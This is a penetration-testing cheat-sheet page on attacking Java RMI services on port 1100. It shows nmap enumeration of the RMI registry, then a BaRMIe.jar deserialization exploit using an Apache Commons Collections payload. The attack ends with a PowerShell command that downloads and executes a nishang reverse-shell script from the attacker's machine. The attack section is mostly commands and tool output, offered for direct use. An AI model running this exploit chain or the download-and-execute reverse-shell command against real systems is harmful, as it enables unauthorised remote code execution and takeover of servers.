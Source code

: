 ```yaml
---
description: >-
  The Java Remote Method Invocation, or Java RMI, is a mechanism that allows an
  object that exists in one Java virtual machine to access and call methods that
  are contained in another one.
---
```


# PORT 1100/tcp - Java RMI

## Enumeration

We can enumerate RMI ports with nmap.

```text
nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p <PORT> <IP>

<PORT>/tcp  open  java-rmi     Java RMI
| rmi-dumpregistry:
|   creamtec/ajaxswing/JVMFactory
|     com.creamtec.ajaxswing.core.JVMFactory_Stub
|     @127.0.0.1:49157
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
```

## BaRMIe.jar

If we can dump the registry of the java-rmi instance is the case where the machine may be vulnerable to a deserialization exploit. To exploit this deserialization on RMI ports I'm going to use BaRMIe.jar. We can download the file on the following link.

{% embed url="https://github.com/NickstaDB/BaRMIe/releases/download/v1.01/BaRMIe\_v1.01.jar" %}

You need to select some parameters such as **target**, **attack**, **payload** and **OS command**, here and example of usage with a nishang reverse shell. I used Apache Commons for payload but you can use one different.

```text
$ java -jar BaRMIe_v1.01.jar -attack <IP> <PORT>

Target summary:
  <IP>:<PORT>
    Available attacks:
      [---] Java RMI registry illegal bind deserialization

Target selection
 1) <IP>:<PORT> Reliability [---], Deser attack [Y], payload [?]
Select a target to attack (q to quit): 1

Available attacks for target: <IP>:<PORT>
 1) [---] Java RMI registry illegal bind deserialization
Select an attack to execute (b to back up, q to quit): 1

Attack: Java RMI registry illegal bind deserialization [---]

Deserialization payloads for: <IP>:<PORT>
 1) Apache Commons Collections 3.1, 3.2, 3.2.1
 2) Apache Commons Collections 4.0-alpha1, 4.0
 3) Apache Groovy 1.7-beta-1 to 2.4.0-beta-4
 4) Apache Groovy 2.4.0-rc1 to 2.4.3
 5) JBoss Interceptors API
 6) ROME 0.5 to 1.0
 7) ROME 1.5 to 1.7.3
 8) Mozilla Rhino 1.7r2
 9) Mozilla Rhino 1.7r2 for Java 1.4
 10) Mozilla Rhino 1.7r3
 11) Mozilla Rhino 1.7r3 for Java 1.4
 12) Mozilla Rhino 1.7r4 and 1.7r5
 13) Mozilla Rhino 1.7r6, 1.7r7, and 1.7.7.1
 a) Try all available deserialization payloads
Select a payload to use (b to back up, q to quit): 1


Enter an OS command to execute: powershell.exe -command "IEX(new-object net.webclient).downloadstring('http://<ip-kali>/Invoke-PowerShellTcp.ps1')"


```



